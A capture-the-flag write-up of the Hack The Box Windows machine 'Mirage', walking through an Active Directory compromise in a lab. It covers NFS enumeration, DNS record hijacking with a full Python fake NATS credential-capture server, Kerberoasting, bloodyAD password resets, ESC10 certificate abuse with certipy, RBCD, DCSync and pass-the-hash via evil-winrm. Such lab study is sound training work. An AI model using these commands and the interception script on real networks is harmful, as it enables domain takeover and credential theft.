



# Mirage


```
Difficulty: Hard
Operating System: Windows
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | `(Local)` | Nmap & DNS Enumeration | Conducted an Nmap scan to discover open ports and services, identifying a NATS service on port 4222. DNS enumeration revealed the Active Directory domain `mirage.htb`. |
| 2 | `(Local)` | NFS Mount & File Analysis | Mounted an NFS share to access files, where I discovered PDF documents. Analyzing these documents revealed the hostname `nats-svc` and details about NTLM and Kerberos authentication. |
| 3 | `(Local)` | DNS Hijacking & Credential Interception | Hijacked the `nats-svc.mirage.htb` DNS record using `nsupdate`. I set up a fake Python server to act as the NATS service, successfully intercepting credentials for a user named `Dev_Account_A`. |
| 4 | `david.jjackson` | NATS Service Interaction | Used the `Dev_Account_A` credentials to interact with the legitimate NATS service, retrieving the credentials for the Active Directory user `david.jjackson`. |
| 5 | `nathan.aadam` | BloodHound & Kerberoasting | Used `david.jjackson`'s credentials with BloodHound to map the Active Directory environment. Identified the user `nathan.aadam` as vulnerable to Kerberoasting. I performed a Kerberoasting attack and cracked the password hash, revealing the plaintext password `3eXXXXDC3`. |
| 6 | `javier.mmarshall` | WinRM, WinPEAS & bloodyAD | Gained a shell as `nathan.aadam` via WinRM. Ran `winPEAS` to enumerate the system and discovered a password change log for the `javier.mmarshall` account from a `mark.bbond` account. I used `bloodyAD` to enable the disabled `javier.mmarshall` account and reset its password. |
| 7 | `Mirage-Service$` | bloodyAD | Used the compromised `javier.mmarshall` account to retrieve the `msDS-ManagedPassword` attribute hash for the `Mirage-Service$` computer account using `bloodyAD`. |
| 8 | `dc01$` | Certipy (ESC10 Abuse) | Exploited a misconfigured certificate template (ESC10) using `Certipy` to obtain a certificate for the `dc01$` domain controller computer account, which allowed me to impersonate it. |
| 9 | `dc01$` | certipy-ad & bloodyAD | Used the forged `dc01$` identity and `certipy-ad` to enable Resource-Based Constrained Delegation (RBCD). This granted the `Mirage-Service$` account control over the DC computer object, a critical step for further privilege escalation. |
| 10 | `Administrator` | RBCD, DCSync & Pass-the-Hash | Abused the newly configured RBCD to perform a DCSync attack, which allowed me to dump the NTLM hash for the domain `Administrator` account. I then used the `evil-winrm` tool with the `Administrator` hash to gain a root shell on the domain controller. |


### Initial Enumeration

An nmap scan revealed several open ports, including the standard Active Directory ports and an unusual port 4222 running the NATS service. The scan also identified two domains: dc01.mirage.htb and mirage.htb. Both were added to the /etc/hosts file.

Further enumeration with nmap showed that NTLM was disabled on the domain controller, which is an important detail for later.

Foothold and user.txt
The next step was to look for accessible shares using showmount. This revealed an NFS share named /MirageReports that was accessible to everyone. We mounted this share to our local machine.

Bash

```
sudo mount -t nfs 10.10.11.78:/MirageReports /mnt
```

Inside the share, we found and copied two PDF files: Incident_Report_Missing_DNS_Record_nats-svc.pdf and Mirage_Authentication_Hardening_Report.pdf.

Bash

```

sudo cp /mnt/Incident_Report_Missing_DNS_Record_nats-svc.pdf /path/where/to/store
sudo cp /mnt/Mirage_Authentication_Hardening_Report.pdf /path/where/to/store
```


Note: We might need to change the ownership of these files to our user to view them.

Bash (Optional)

```
sudo chown <your_user>:<your_user> 
Incident_Report_Missing_DNS_Record_nats-svc.pdf Mirage_Authentication_Hardening_Report.pdf
```

The PDFs contained two crucial pieces of information:

NTLM is disabled, and Kerberos should be used.

The hostname nats-svc.mirage.htb has a missing DNS record, and the service is unreachable.

First, we modified /etc/krb5.conf to set up Kerberos for the MIRAGE.HTB realm, pointing to the domain controller's IP.

Bash

```
sudo nano /etc/krb5.conf
[libdefaults]
        default_realm = MIRAGE.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        fcc-mit-ticketflags = true

[realms]
        MIRAGE.HTB = {
                kdc = 10.10.11.78
                admin_server = 10.10.11.78
        }

```


Next, we performed a DNS hijacking attack. We created a dnsupdate.txt file to delete the old DNS record for nats-svc.mirage.htb and add a new one pointing to our IP address.


```
server 10.10.11.78
zone mirage.htb
update delete nats-svc.mirage.htb A
update add nats-svc.mirage.htb 60 A <YOUR_IP>
send
```


To intercept credentials from the NATS service, we created a fake NATS server using a Python script named listen.py.

Bash

```
#!/usr/bin/env python3

import socket
import threading
import time
from datetime import datetime
import json
import base64

class FakeNATSServer:
    def __init__(self, host='0.0.0.0', port=4222):
        self.host = host
        self.port = port
        self.running = False
        self.clients = []

    def log(self, message):
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        print(f"[{timestamp}] {message}")

    def handle_client(self, client_socket, client_address):
        self.log(f"New connection from {client_address[0]}:{client_address[1]}")

        try:
            # Send NATS server info message (mimicking real NATS server)
            info_msg = {
                "server_id": "fake-nats-server",
                "version": "2.9.0",
                "proto": 1,
                "host": "0.0.0.0",
                "port": 4222,
                "max_payload": 1048576,
                "client_id": len(self.clients)
            }
            info_line = f"INFO {json.dumps(info_msg)}\r\n"
            client_socket.send(info_line.encode())
            self.log(f"Sent INFO: {info_line.strip()}")

            while self.running:
                try:
                    # Receive data from client
                    data = client_socket.recv(4096)
                    if not data:
                        break

                    message = data.decode('utf-8', errors='ignore').strip()
                    self.log(f"RECEIVED from {client_address[0]}: {repr(message)}")

                    # Parse different NATS protocol messages
                    lines = message.split('\r\n')
                    for line in lines:
                        if not line:
                            continue

                        self.parse_nats_message(line, client_address)

                    # Send acknowledgment for any message
                    response = "+OK\r\n"
                    client_socket.send(response.encode())

                except socket.timeout:
                    continue
                except Exception as e:
                    self.log(f"Error handling client {client_address}: {str(e)}")
                    break

        except Exception as e:
            self.log(f"Connection error with {client_address}: {str(e)}")
        finally:
            self.log(f"Connection closed: {client_address[0]}:{client_address[1]}")
            client_socket.close()
            if client_socket in self.clients:
                self.clients.remove(client_socket)

    def parse_nats_message(self, line, client_address):
        """Parse and log different types of NATS messages"""
        parts = line.split(' ', 1)
        if not parts:
            return

        command = parts[0].upper()

        if command == 'CONNECT':
            # CONNECT message contains client info and potentially credentials
            try:
                json_part = parts[1] if len(parts) > 1 else '{}'
                connect_info = json.loads(json_part)
                self.log(f"🔐 CONNECT from {client_address[0]}: {json.dumps(connect_info, indent=2)}")

                # Look for credentials
                if 'user' in connect_info:
                    self.log(f"🎯 USERNAME CAPTURED: {connect_info['user']}")
                if 'pass' in connect_info:
                    self.log(f"🎯 PASSWORD CAPTURED: {connect_info['pass']}")
                if 'auth_token' in connect_info:
                    self.log(f"🎯 TOKEN CAPTURED: {connect_info['auth_token']}")
                if 'sig' in connect_info:
                    self.log(f"🎯 SIGNATURE CAPTURED: {connect_info['sig']}")
                if 'jwt' in connect_info:
                    self.log(f"🎯 JWT TOKEN CAPTURED: {connect_info['jwt']}")

            except json.JSONDecodeError as e:
                self.log(f"CONNECT (JSON parse error): {line}")
                self.log(f"JSON Error: {str(e)}")

        elif command == 'PUB':
            self.log(f"📤 PUBLISH: {line}")

        elif command == 'SUB':
            self.log(f"📥 SUBSCRIBE: {line}")

        elif command == 'PING':
            self.log(f"🏓 PING received")

        elif command == 'PONG':
            self.log(f"🏓 PONG received")

        elif command == 'MSG':
            self.log(f"📨 MESSAGE: {line}")

        else:
            self.log(f"❓ UNKNOWN COMMAND: {line}")

    def start(self):
        """Start the fake NATS server"""
        self.running = True

        # Create socket
        server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

        try:
            server_socket.bind((self.host, self.port))
            server_socket.listen(5)
            self.log(f"🚀 Fake NATS Server started on {self.host}:{self.port}")
            self.log("📡 Waiting for connections...")
            self.log("🎯 Ready to intercept credentials!")

            while self.running:
                try:
                    client_socket, client_address = server_socket.accept()
                    client_socket.settimeout(30)  # 30 second timeout
                    self.clients.append(client_socket)

                    # Handle each client in a separate thread
                    client_thread = threading.Thread(
                        target=self.handle_client,
                        args=(client_socket, client_address)
                    )
                    client_thread.daemon = True
                    client_thread.start()

                except socket.error as e:
                    if self.running:
                        self.log(f"Socket error: {str(e)}")

        except Exception as e:
            self.log(f"Server error: {str(e)}")
        finally:
            server_socket.close()
            self.log("Server stopped.")

    def stop(self):
        """Stop the server"""
        self.running = False
        for client in self.clients:
            client.close()

def main():
    # You can also try other common NATS ports:
    # 4222 - Default NATS port
    # 8222 - NATS monitoring port  
    # 6222 - NATS cluster port

    server = FakeNATSServer(host='0.0.0.0', port=4222)

    try:
        server.start()
    except KeyboardInterrupt:
        print("\n[+] Shutting down server...")
        server.stop()

if __name__ == "__main__":
    print("🎭 Fake NATS Server - Credential Interceptor")
    print("=" * 50)
    main()

```

We ran the DNS update and the fake NATS server simultaneously:

Bash

```
nsupdate dnsupdate.txt
```

Bash

```
python listen.py
```


Shortly after, a connection was made to our fake server, and we successfully captured the NATS service credentials:

USERNAME CAPTURED: Dev_Account_A
PASSWORD CAPTURED: hxCXXXXXXXXXXXXX7!

We used the captured credentials to interact with the real NATS service, listing streams and consuming messages from the auth_logs stream.



Bash

```
nats --server nats://mirage.htb:4222 rtt --user Dev_Account_A --password 'hxCXXXXXXXXXXXXX7!'

nats stream ls --server nats://mirage.htb:4222 --user Dev_Account_A --password 'hxCXXXXXXXXXXXXX7!'

nats consumer add auth_logs reader --pull --server nats://mirage.htb:4222 --user Dev_Account_A --password 'hxCXXXXXXXXXXXXX7!'

nats consumer next auth_logs reader --count=5 --server nats://mirage.htb:4222 --user Dev_Account_A --password 'hxCXXXXXXXXXXXXX7!'
```

This gave us the credentials for our first user:
david.jjackson:pNXXXXXXXXXXXXX4@


With these credentials, we ran bloodhound-python to map out the Active Directory environment.

Bash

```
bloodhound-python -d mirage.htb -ns 10.10.11.78 -u 'david.jjackson' -p 'pNXXXXXXXXXXXXX4@' -c All --zip
```


Bloodhound revealed that the david.jjackson account had Read permissions on the nathan.aadam user object and that nathan.aadam had a Service Principal Name (SPN), making it vulnerable to Kerberoasting.

We first used impacket-getTGT to get a TGT for david.jjackson and then impacket-GetUserSPNs to request the Kerberos service tickets for nathan.aadam.


Bash

```
impacket-getTGT mirage.htb/david.jjackson:'pNXXXXXXXXXXXXX4@'

export KRB5CCNAME=david.jjackson.ccache

impacket-GetUserSPNs -k -no-pass -dc-host dc01.mirage.htb mirage.htb/ -request
```


We saved the hash to a file and cracked it using john with rockyou.txt as the wordlist.

Bash

```
john nathan_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


The cracked password for nathan.aadam was 3eXXXXDC3. We then used evil-winrm to get a shell as this user.

Bash

```
impacket-getTGT mirage.htb/nathan.aadam:'3eXXXXDC3'
export KRB5CCNAME=nathan.aadam.ccache
evil-winrm -i dc01.mirage.htb -r mirage.htb
```




### Privilege Escalation and root.txt


Once we had a shell as nathan.aadam, we ran winPEASx64.exe to look for privilege escalation vectors. 


The scan revealed that nathan.aadam could perform a password change on the javier.mmarshall user.


However, further enumeration showed that javier.mmarshall was a disabled account and had highly restrictive logonHours.


To overcome this, we used bloodyAD to enable the account, clear the logonHours restriction, and reset the password. We used a known password for mark.bbond to perform these actions.

Bash

```
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1dXXXXXXme' -k set object javier.mmarshall userAccountControl -v 512
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1dXXXXXXme' -k set object javier.mmarshall logonHours
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1dXXXXXXme' -k set password javier.mmarshall 'Password123@'
```

Next, we used javier.mmarshall to get the msDS-ManagedPassword from the Mirage-Service$ computer account, which gave us its hash.

Bash

```
bloodyAD -k --host dc01.mirage.htb -d 'mirage.htb' -u 'javier.mmarshall' -p 'Password123@' get object 'Mirage-Service$' --attr msDS-ManagedPassword
```

After obtaining the TGT for Mirage-Service$, deep enumeration revealed that the Mirage-Service$ computer account had a weak certificate mapping configuration (Schannel-based) vulnerable to ESC10 abuse.

We exploited this vulnerability using the following steps:

UPN Manipulation: Changed the User Principal Name (UPN) of the mark.bbond user to impersonate dc01$.

Certificate Enrollment: Requested a certificate for the mark.bbond user, but with the modified UPN.

UPN Reversion: Changed the UPN back to its original value.

Schannel Authentication: Used the forged certificate to authenticate as dc01$.

We then used certipy-ad to perform the attack.

Bash

##### UPN Manipulation

```

export KRB5CCNAME=Mirage-Service\$.ccache

certipy-ad account update -user 'mark.bbond' -upn 'dc01$@mirage.htb' -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target dc01.mirage.htb
```


##### Certificate Enrollment

```

impacket-getTGT mirage.htb/mark.bbond:'1dXXXXXXXXme'

export KRB5CCNAME=mark.bbond.ccache

certipy-ad req -u 'mark.bbond@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target 'dc01.mirage.htb' -ca 'mirage-DC01-CA' -template 'User'
```


##### UPN Reversion

```

export KRB5CCNAME=Mirage-Service\$.ccache

certipy-ad account update -user 'mark.bbond' -upn 'mark.bbond@mirage.htb' -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target dc01.mirage.htb
```


##### Schannel Authentication & Impersonation

certipy-ad auth -pfx dc01.pfx -dc-ip 10.10.11.78 -ldap-shell
Inside the LDAP shell, we enabled Resource-Based Constrained Delegation (RBCD), allowing Mirage-Service$ to delegate to dc01$.

Bash

```
set_rbcd dc01$ Mirage-Service$
```


Finally, we abused the RBCD to perform a DCSync attack as dc01$, which allowed us to dump all NTLM hashes, including the Administrator hash.

Bash

```

impacket-getST -spn 'cifs/DC01.mirage.htb' -impersonate 'dc01$' -dc-ip 10.10.11.78  'mirage.htb/Mirage-Service$' -hashes :305806XXXXXXXXXXXXXXXXaf40f0c7866

export KRB5CCNAME='dc01$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache'

impacket-secretsdump -k -no-pass -dc-ip 10.10.11.78 dc01.mirage.htb
```


Using the Administrator hash, we logged in with evil-winrm to get the final root.txt flag.

Bash

```

impacket-getTGT mirage.htb/administrator -hashes aadXXXXXXXXXXXXXXXXXX35b51404ee:7be6d4XXXXXXXXXXXXXXXeeb1afb3
export KRB5CCNAME=administrator.ccache
evil-winrm -i dc01.mirage.htb -r mirage.htb
```




**Pwned! Mirage**